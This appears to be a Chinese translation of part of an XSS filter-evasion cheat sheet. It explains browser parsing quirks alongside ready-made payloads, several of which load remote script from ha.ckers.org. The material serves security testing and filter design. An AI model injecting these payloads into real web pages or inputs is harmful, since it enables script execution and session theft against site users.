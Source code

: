 * * *

## 图片元素中 javascript 之前的空格和元字符为 xss

xss 过滤拼配模式没有考虑单词"javascript:"中可能存在空格是正确的，因为否则将无法渲染。但是这也导致了错误的假设认为你不可以有一个空格在引号和 "javascript:" 单词之间。事实上你可以插入 1-32 编码字符（十进制）中的任何字符。

```
<IMG SRC=" &#14;  javascript:alert('XSS');"> 
```

* * *

## 非字母数字字符 xss

Firefox html 解析器设定一个非数字字母字符不是有效的在一个 html 关键字后面，因此这些字符会被视为空白符或是无效的 token 在 html 标签之后。这导致很多 xss 过滤器错误的认为 html 标签必须是被空白符隔断的。例如，`"<SCRIPT\s" != "<SCRIPT/XSS\s"`:

```
<SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"></SCRIPT> 
```

和上面的原理相同，我们继续扩大，Gecko 渲染引擎允许字母、数字、html 封装字符以外的任何字符位于事件处理器与等号之间。从而借此绕过 xss 过滤器。注意这也是适用于重音符如下所示：

```
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")> 
```

Yair Amit 提示我有一个小区别在 ie 和 Gecko 渲染引擎之间是他们仅允许一个一个斜杠在 html 标签和参数之间，在不使用空格的情况下。这可能是有用的在那些不允许输入空格的系统中。

```
<SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT> 
```

* * *

## 附加的开括号

Franz Sedlmaier 提出，利用这个 xss 向量可以绕过某些检测引擎，因为这些引擎通过拼配最早出现的一对尖括号，并且提取其内部内容作为标签，而没有使用更加有效的算法例如 Boyer-Moore（寻找打开的尖括号以及相关标签的模糊拼配）。代码中的双斜杠可以抑制额外尖括号导致的 javascript 错误。

```
<<SCRIPT>alert("XSS");//<</SCRIPT> 
```

* * *

## 没关闭的 script 标签

对于使用了 Gecko 渲染引擎的 Firefox 和 Netscape 8.1 ，你并不需要常规 xss 中"></SCRIPT>"这部分。 Firefox 会帮你闭合标签，并且加入结束标签。多么的体贴啊！ Unlike the next one, which doesn't effect Firefox, this does not require any additional HTML below it. 如果需要，你可以加入引号，但通常他并不是必须的。注意，我并不清楚这个代码被注入后 html 代码会闭合成什么样子。

```
<SCRIPT SRC=http://ha.ckers.org/xss.js?< B > 
```

* * *

